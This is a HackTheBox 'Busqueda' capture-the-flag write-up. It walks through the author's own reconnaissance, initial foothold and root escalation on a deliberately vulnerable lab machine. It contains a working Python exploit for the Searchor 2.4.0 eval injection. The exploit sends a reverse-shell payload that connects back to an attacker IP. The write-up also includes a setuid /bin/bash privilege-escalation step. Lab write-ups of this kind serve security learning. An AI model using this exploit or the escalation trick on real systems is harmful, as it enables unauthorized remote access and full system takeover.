










HackTheBox - Busqueda Writeup
Table of Contents
Nmap
Like always, I’m going to scan the IP Address by using nmap but I’m going to scan the full port first. Then, I’m going to scan the only open ports.
nmap -p22,80 -sCV -oN nmap/busqueda 10.10.11.208
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
The nmap scan result is completed. There are just two port opens which are SSH, HTTP. Well, I’m going to ignore port 22 which is SSH, since I don’t have any credentials.
On top of that, nmap also found the hostname called searcher.htb and I’m going to add that to the /etc/hosts file.

Http: searcher.htb
With that information in hand. I’ve navigated to port 80 through my browser and I’ve been greeted with this page. It’s a simple web application with a dropdown of search engine and an input prompt.
At the bottom of this page. It shows the application name and the build version, which is Searchor 2.4.0 and it’s linking into this github repository.

Foothold: Searchor 2.4.0
With a simple search on Google about this particular version. I came across this github repository which included the POC.
Below is the vulnerable code that leads this exploit to work. It’s using the eval function and follow with {engine} and {query} as input.

So, I make a simple exploit in python based on this POC by using python reverse shell as the payload.
#!/usr/bin/env/python3
# Searchor 2.4.0 POC
# Description:
# https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b
# https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md
# https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main
# https://security.snyk.io/package/pip/searchor/2.4.0
import requests
import sys
#p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
def send_req(url, ip, port):
payload = "', exec(\"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"))#".format(ip, port)
data = {'engine':'Accuweather','query':f'{payload}'}
# requests.post(url, data=data, proxies=p)
requests.post(url, data=data)
if __name__=="__main__":
try:
url = sys.argv[1].strip()
ip = sys.argv[2].strip()
port = sys.argv[3].strip()
except IndexError:
print("[-] Usage: {} <url> <attacker_ip> <attacker_port>".format(sys.argv[0]))
print('[-] Example: {} "http://example.com/search" "10.10.10.10" "1111"'.format(sys.argv[0]))
sys.exit(1)
print("[!] Sending the payload...")
send_req(url, ip, port)
Shell: svc
Upon successfully executing the exploit. I’m in as a svc user and the best thing to do is upgrade my shell. On top of that, I’m in the /var/www/app directory.

While listing the /var/www/app directory. I found a hidden directory called .git and a config file in there.

The config file, it’s contains the password of a user called cody and a subdomain called gitea. So, I added that into my /etc/hosts file.


Http: gitea.searcher.htb (cody)
Then, I navigated through the browser and successfully login as cody. Unfortunately, there’s nothing that I found interesting.

However, there are two users on it, which is the user that I used for login now and the administrator user.

Now, I’m curious to see if this user called cody exists on the box. So, I’ll check the user and found out, only two users that exit.

SSH: svc
From the nmap scan result above. It shows the port 22 which is SSH, and it’s open. Then, I’ll try the credentials that I found earlier alongside the svc user and it works.

Since I have the password of this user. I’m going to check the sudo permission with the sudo -l command. Fair enough, I can run a python script that is located in the /opt directory called system-checkup.py.

SSH: system-checkup.py help
When I ran it, it’s listing three possible commands that I could use. However, one of the commands which is full-checkup seems like not working or it’s just a print function.

SSH: system-checkup.py docker-ps
I executed the docker-ps command and it’s showing the docker process on the machine. Surprisingly, one of the docker containers was an image of the mysql database. I’ll try connecting to the mysql and it’s failed.

SSH: system-checkup.py docker-inspect
When I executed the docker-inspect command, it throws an error that require some arguments.

So, I’m searching in the ocean of the internet and found this article that talks about this particular command which is docker-inspect.
Then, I executed this command to dump the config file of the mysql database by appending the container id into it.

Luckily, I found the admin credentials of the mysql database. However, when I’ll try to connect to it. It’s failed. So, I’m going to execute another command to show the docker ip address.

SSH: mysql
I managed to connect to it as the root user by supplying this ip address 172.19.0.3 as a host. Unfortunately, I can’t find anything that interesting, and feels like I’m stuck.

Http: gitea.searcher.htb (administrator)
Then, I’ll try all the credentials that I found earlier on any input that I can find. Luckily, I managed to log in as an administrator user on the gitea page.

On top of that, administrator has a repository called scripts that contains a file called system-checkup.py and full-checkup.sh, which is svc user can execute it with sudo permission.
Http: gitea.searcher.htb (full-checkup.sh)
However, when I ran the full-checkup command earlier, it did not work and I thought maybe it was just a print function that got executed. So, I’ll check that file, and I was completely wrong.

Http: gitea.searcher.htb (system-chekup.py)
I ended up checking the system-chekup.py source code and I spotted the problem in line 47. If the user supplies the full-checkup command, it’s going to execute a bash file named full-checkup.sh in the current directory.

To prove it, I’m going to execute the command in different directories. First, at the /home/svc/ directory, and second, it’s going to be in the /opt/scripts/ directory, where’s the scripts located.

PrivEsc: system-checkup.py
From the result above, I can create a malicious bash file called full-checkup.sh and execute with the sudo permission.
I’m going to use a simple payload such as chmod +s /bin/bash, which is turn a /bin/bash binary into a Set UID binary. Then, I can execute as /bin/bash -p to get the root shell.